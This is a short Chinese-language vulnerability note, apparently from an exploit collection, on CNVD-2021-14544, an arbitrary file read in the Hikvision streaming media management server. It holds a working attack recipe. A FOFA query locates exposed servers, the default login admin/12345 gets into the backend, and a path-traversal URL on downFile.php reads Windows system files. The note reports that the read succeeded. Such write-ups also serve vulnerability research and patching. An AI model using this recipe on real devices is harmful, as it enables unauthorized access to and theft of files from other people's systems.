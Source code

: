 # HIKVISION 流媒体管理服务器 后台任意文件读取漏洞 CNVD-2021-14544

## 漏洞描述

杭州海康威视系统技术有限公司流媒体管理服务器存在弱口令漏洞，攻击者可利用该漏洞登录后台通过文件遍历漏洞获取敏感信息

## 漏洞影响

`HIKVISION 流媒体管理服务器`

## FOFA

`title="流媒体管理服务器"`

## 漏洞复现

登录页面如下， 默认账号密码为 admin/12345

![](resource/HIKVISION-流媒体管理服务器-后台任意文件读取漏洞-CNVD-2021-14544/media/1.png)

POC如下，访问如下Url下载 system.ini文件

```bash
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```

![](resource/HIKVISION-流媒体管理服务器-后台任意文件读取漏洞-CNVD-2021-14544/media/2.png)

成功读取 C:/windows/system.ini

